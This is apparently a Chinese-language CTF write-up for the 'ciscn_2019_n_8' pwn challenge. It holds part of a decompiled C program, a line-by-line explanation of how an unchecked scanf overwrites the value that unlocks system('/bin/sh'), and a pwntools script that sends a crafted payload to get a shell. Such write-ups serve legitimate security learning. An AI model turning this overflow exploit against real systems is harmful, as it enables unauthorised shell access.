 ```c
      printf(
        "something wrong! val is %d",
        var[0],
        var[1],
        var[2],
        var[3],
        var[4],
        var[5],
        var[6],
        var[7],
        var[8],
        var[9],
        var[10],
        var[11],
        var[12],
        var[13],
        var[14]);
  }
  else
  {
    printf("%s, Welcome!\n", var);
    puts("Try do something~");
  }
  return 0;
}
```

- 定义一个名为`main`的函数，它接受三个参数：`argc`表示命令行参数的个数，`argv`表示命令行参数的数组，`envp`表示环境变量的数组。

- 定义两个整型变量`v4`和`v5`，它们在栈上分配空间，并用注释标明它们的地址偏移量。

- 定义一个长度为15的整型数组`var`，并将它的第14个和第15个元素初始化为0。

- 调用一个名为`init`的函数，它可能是用来做一些初始化操作的。

- 调用`puts`函数，向标准输出打印一句话：“What’s your name?”，并换行。

- 调用`__isoc99_scanf`函数，从标准输入读取一个字符串，并将其存储在数组`var`中。同时，将变量`v4`和`v5`作为额外的参数传递给该函数，这可能是一个漏洞，因为这两个变量没有被初始化，而且没有被使用。

- 判断数组`var`中第14个和第15个元素组成的64位整数是否为0。如果不为0，则继续判断该整数是否等于17。如果等于17，则调用`system`函数，执行一个名为"/bin/sh"的程序，这可能是一个后门，因为它可以让用户获得一个shell。如果不等于17，则调用`printf`函数，向标准输出打印一句话：“something wrong! val is %d”，并将数组`var`中的所有元素作为参数传递给该函数。

- 如果数组`var`中第14个和第15个元素组成的64位整数为0，则调用`printf`函数，向标准输出打印一句话：“%s, Welcome!\n”，并将数组中存储的字符串作为参数传递给该函数。然后调用`puts`函数，向标准输出打印一句话：“Try do something~”，并换行。

- 最后返回0，表示程序正常结束。

  exp如下：

```python
from pwn import *
p = process('./ciscn_2019_n_8')
#p= remote('pwn.node.game.sycsec.com',30345)
#gdb.attach(p)
elf = ELF('./ciscn_2019_n_8')
context(os="linux",arch="amd64",log_level='debug')

payload = p32(17)*14 
p.sendline(payload)
p.interactive()
```
